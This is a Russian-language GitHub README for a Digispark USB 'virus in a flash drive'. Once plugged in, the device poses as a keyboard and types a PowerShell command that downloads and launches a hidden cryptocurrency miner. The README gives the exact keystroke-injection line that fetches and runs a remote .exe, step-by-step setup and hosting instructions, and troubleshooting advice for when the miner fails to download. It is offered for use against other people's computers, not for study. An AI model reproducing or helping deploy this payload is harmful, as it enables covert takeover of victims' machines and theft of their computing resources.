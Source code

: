 # miner-digispark | Вирус в флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Советую на виртуалке) 
> Видео-инструкция -- https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8
- Загружаем майнер на github/обменник/сервер. нужен полный путь до файла https://...exe [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-link.md)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
- Готово! 
## Вопрос - Ответ
### Как работает?
- После подключения Digispark к USB нажимается WIN+R, а далее вводится подготовленная команда которая будет устанавливать и запускать майнер.
### Работает, но майнер не загружается
- Возможно нету доступа к папке. Попробуйте сменить расположение. Если не помогло, то убедитесь в корректности загрузочной ссылки, должна быть укаазана **прямая** ссылка до файла (Пример: https: //file.exemple/my_miner.exe) 

## Контакты для связи
- [TELEGRAM](https://t.me/soketpy)

 
